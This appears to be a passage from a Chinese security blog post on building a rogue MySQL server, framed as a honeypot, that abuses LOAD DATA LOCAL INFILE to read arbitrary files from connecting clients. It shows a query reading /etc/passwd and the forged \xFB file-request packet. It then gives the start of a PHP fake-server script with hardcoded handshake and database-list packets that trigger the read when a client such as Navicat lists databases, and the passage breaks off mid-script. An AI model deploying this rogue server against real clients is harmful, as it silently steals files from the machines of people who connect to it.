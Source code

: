 - 我们通过该语句加载本地文件，而后抓包分析`LOAD DATA INFILE`.

```mysql
load data local infile '/etc/passwd' into table sys_config fields terminated by '\n';
```

![image20220216155855214](https://goodcheerleung.gitee.io/macpic/image-20220216155855214.png)

- 我们可以发现在请求`load data`语句后，服务器会返回一个`Response TABULAR`数据包来请求客户端读取本地文件。也就是说通过`load data`读取文件是服务端请求客户端读取文件，而不是客户端主动读取文件后发往服务端。那么假设我们伪造服务器向客户端请求读取这个文件是否可以读取到客户端计算机中的任意文件呢？答案是可以的，这是由于在`MySQL`协议中，客户端本身不存储自身的请求，而是通过服务端的响应来执行操作的。
- `Response TABULAR`数据包比较简单，就是普通的MYSQL数据包，payload就是文件路径但是前面要加上`\xfb`作为标志位。

| Type | Name | Description |
| --- | --- | --- |
| int<3> | *`payload_length`* | payload的长度,整数类型。不包括包头四个字节 |
| int<1> | *`sequence_id`* | Sequence ID |
| int<1> | *`flag`* | `\xFb` |
| string | *`fpath`* | 文件路径 |

- 我们直接构建读取文件数据包

```php
    $msg = chr(strlen($fpath)+1) . "\x00\x00\x01\xFB".$fpath;
```

- 如果要读取文件我们必须要在客户端发送一条`Query`包后才能读取文件。首先我们的蜜罐必须保留扫描器扫描认证的功能，那么我们不能在发送``SET NAMES utf8mb4`时候请求文件。我们可以选择在`Navicat`请求数据库列表时候要求读取文件。那么修改代码如下:

```mysql
<?php 
error_reporting(0);
set_time_limit(0);
$address = "0.0.0.0";
$port = 3306;
define("VERSION","\x4a\x00\x00\x00\x0a\x35\x2e\x37\x2e\x32\x38\x00\x02\x00\x00\x00\x5c\x31\x01\x33\x7d\x09\x65\x7a\x00\xff\xff\xc0\x02\x00\xff\xc1\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x1b\x1c\x55\x27\x71\x59\x25\x3a\x2c\x6d\x2e\x2d\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00");
define("LOGINSUCESS","\x07\x00\x00\x02\x00\x00\x00\x02\x00\x00\x00");
define("VARIABLES","\x01\x00\x00\x01\x02\x52\x00\x00\x02\x03\x64\x65\x66\x00\x11\x73\x65\x73\x73\x69\x6f\x6e\x5f\x76\x61\x72\x69\x61\x62\x6c\x65\x73\x11\x73\x65\x73\x73\x69\x6f\x6e\x5f\x76\x61\x72\x69\x61\x62\x6c\x65\x73\x0d\x56\x61\x72\x69\x61\x62\x6c\x65\x5f\x6e\x61\x6d\x65\x0d\x56\x61\x72\x69\x61\x62\x6c\x65\x5f\x6e\x61\x6d\x65\x0c\x2d\x00\x00\x01\x00\x00\xfd\x01\x10\x00\x00\x00\x42\x00\x00\x03\x03\x64\x65\x66\x00\x11\x73\x65\x73\x73\x69\x6f\x6e\x5f\x76\x61\x72\x69\x61\x62\x6c\x65\x73\x11\x73\x65\x73\x73\x69\x6f\x6e\x5f\x76\x61\x72\x69\x61\x62\x6c\x65\x73\x05\x56\x61\x6c\x75\x65\x05\x56\x61\x6c\x75\x65\x0c\x2d\x00\x00\x10\x00\x00\xfd\x00\x00\x00\x00\x00\x05\x00\x00\x04\xfe\x00\x00\x22\x00\x1a\x00\x00\x05\x16\x6c\x6f\x77\x65\x72\x5f\x63\x61\x73\x65\x5f\x66\x69\x6c\x65\x5f\x73\x79\x73\x74\x65\x6d\x02\x4f\x4e\x19\x00\x00\x06\x16\x6c\x6f\x77\x65\x72\x5f\x63\x61\x73\x65\x5f\x74\x61\x62\x6c\x65\x5f\x6e\x61\x6d\x65\x73\x01\x32\x05\x00\x00\x07\xfe\x00\x00\x22\x00");
define("DBLIST","\x01\x00\x00\x01\x01\x4b\x00\x00\x02\x03\x64\x65\x66\x12\x69\x6e\x66\x6f\x72\x6d\x61\x74\x69\x6f\x6e\x5f\x73\x63\x68\x65\x6d\x61\x08\x53\x43\x48\x45\x4d\x41\x54\x41\x08\x53\x43\x48\x45\x4d\x41\x54\x41\x08\x44\x61\x74\x61\x62\x61\x73\x65\x0b\x53\x43\x48\x45\x4d\x41\x5f\x4e\x41\x4d\x45\x0c\x2d\x00\x00\x01\x00\x00\xfd\x01\x00\x00\x00\x00\x05\x00\x00\x03\xfe\x00\x00\x22\x00\x13\x00\x00\x04\x12\x69\x6e\x66\x6f\x72\x6d\x61\x74\x69\x6f\x6e\x5f\x73\x63\x68\x65\x6d\x61\x06\x00\x00\x05\x05\x6d\x79\x73\x71\x6c\x06\x00\x00\x06\x05\x70\x61\x70\x65\x72\x13\x00\x00\x07\x12\x70\x65\x72\x66\x6f\x72\x6d\x61\x6e\x63\x65\x5f\x73\x63\x68\x65\x6d\x61\x07\x00\x00\x08\x06\x73\x63\x68\x6f\x6f\x6c\x04\x00\x00\x09\x03\x73\x79\x73\x05\x00\x00\x0a\xfe\x00\x00\x22\x00");
define("OK","\x07\x00\x00\x01\x00\x00\x00\x02\x00\x00\x00");
function initSocket($address,$port){
    $sock = socket_create(AF_INET, SOCK_STREAM, SOL_TCP) or die(socket_strerror(socket_last_error()));
    socket_set_block($sock) or die( socket_strerror(socket_last_error()));//阻塞模式
    $result = socket_bind($sock, $address, $port) or die(socket_strerror(socket_last_error()));//绑定端口
```